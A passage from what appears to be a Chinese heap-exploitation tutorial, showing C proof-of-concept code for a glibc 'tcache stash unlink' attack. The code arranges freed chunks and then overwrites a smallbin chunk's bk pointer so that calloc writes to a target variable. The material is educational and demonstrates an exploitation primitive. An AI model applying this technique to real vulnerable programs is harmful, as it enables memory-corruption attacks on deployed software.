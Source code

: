 ```c
    for(int i=0 ; i<8; i++){
        chunks[i] = malloc(0x100);
    }

    // 申请一个0x20来防止两个smallbin的合并
    malloc(0x20);
    
    // 最后一个smallbin
    chunks[8] = malloc(0x100);
    
    // 防止合并top
    malloc(0x20);
    
    // 释放这9个大小为0x100的chunk，其中chunk[7]和chunk[8]位于unsortedbin
    for(int i =0; i<9; i++){
        free(chunks[i]);
    }
    
    // 将unsortedbin里面的chunks添加到smallbin
    malloc(0x200);

    // 从tcache申请一个chunk
    malloc(0x100);

    // 现在，tcache中有6个chunk，而smallbin中含有两个chunk
    // 由于FIFO，fd有chunks[8] -> chunks[7] -> main_arena + x，先取出chunks[7]
    // bk有chunks[7] -> chunks[8] -> main_arena +x
    // 需要修改最后取出的chunk的bk来完成攻击

    /* vuln start */ 
    chunks[8][1] = (size_t)&secret - 0x10;
    /* vuln ends */

    calloc(1, 0x100);

    printf("Now the value of secret is 0x%lx.\n", (unsigned long)secret);

    assert(secret!=0);
    return 0;
}
```

# tcache stash unlink attack plus

## 适用版本

`glibc2.23-latest`

## glibc2.23 -latest
